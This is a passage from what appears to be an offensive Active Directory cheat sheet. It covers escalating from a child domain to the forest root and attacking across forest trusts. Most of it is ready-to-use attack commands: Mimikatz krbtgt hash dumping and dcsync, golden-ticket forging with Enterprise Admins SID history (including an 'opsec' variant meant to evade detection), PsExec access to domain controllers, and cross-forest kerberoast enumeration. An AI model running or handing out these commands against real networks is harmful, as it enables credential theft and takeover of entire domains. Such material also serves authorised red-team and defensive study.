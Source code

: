 ````
misc::convert lsa <KIRBI FILE>
```

#### Check access to server
```
dir \\<FQDN PARENT DC>\C$ 
Enter-PSSession <COMPUTERNAME>
.\PsExec64.exe \\<COMPUTERNAME> cmd
```

### Krbtgt hash
- Abuses SID History
#### Get krbtgt hash from dc
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <DC>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"' -Computername <DC>
```

#### Create TGT and inject in current session
- The mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for the Forest Enterprise Admin Group
- ```Get-DomainGroup "Enterprise Admins" -Domain <TARGET DOMAIN> | Select-Object samaccountname, objectsid```
- Also possible to use the <DOMAIN SID>-519 (519 is the enterprise admin group)
- Remove ```/ptt``` to save ticket to file
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /krbtgt:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /ptt"'
```
 
- *Opsec way*
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<CHILD DOMAIN SID> /aes256:<HASH> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /startoffset:-10 /endin:600 /renewmax:10080 /ptt"'
```

#### Check access to server
```
dir \\<FQDN PARENT DC>\C$ 
Enter-PSSession <COMPUTERNAME>
.\PsExec64.exe \\<COMPUTERNAME> cmd
```

## Crossforest attacks
### Kerberoast2
#### Enumerate users with SPN cross-forest
```
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName} 
```

#### Request and crack TGS see:
See [Kerberoast](#Kerberoast) 

### Printer bug2
-  It also works across a Two-way forest trust if TGT Delegation is enabled!

#### Check if TGTDelegation is enabled (run on DC)
```
netdom trust <CURRENT FOREST> /domain:<TRUSTED FOREST> /EnableTgtDelegation
```

See [Printer Bug](#Printer-bug) for exploitation

### Trust key2
````